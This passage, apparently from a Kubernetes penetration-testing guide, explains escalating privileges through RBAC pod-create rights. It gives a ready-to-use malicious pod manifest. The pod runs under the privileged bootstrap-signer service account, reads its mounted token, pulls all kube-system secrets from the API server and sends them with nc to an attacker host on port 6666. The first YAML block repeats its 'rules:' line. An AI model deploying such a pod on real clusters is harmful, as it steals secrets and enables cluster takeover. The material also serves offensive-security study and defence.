 ```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: api-resource-verbs-all
rules:
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["create", "list", "get"]
```

### Pod Create - Steal Token

An attacker with permission to create a pod in the “kube-system” namespace can create cryptomining containers for example. Moreover, if there is a **service account with privileged permissions, by running a pod with that service the permissions can be abused to escalate privileges**.

Here we have a default privileged account named _bootstrap-signer_ with permissions to list all secrets.

![](https://www.cyberark.com/wp-content/uploads/2018/12/rolebinding\_with\_cluster\_admin\_clusterrole-1024x545.png)

The attacker can create a malicious pod that will use the privileged service. Then, abusing the service token, it will ex-filtrate the secrets:

![](https://www.cyberark.com/wp-content/uploads/2018/12/pods\_yaml\_with\_autoamountServiceAccountToken-1024x345.png)

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

In the previous image note how the _bootstrap-signer service is used in_ `serviceAccountname`_._

So just create the malicious pod and expect the secrets in port 6666:

### **Pod Create & Escape**
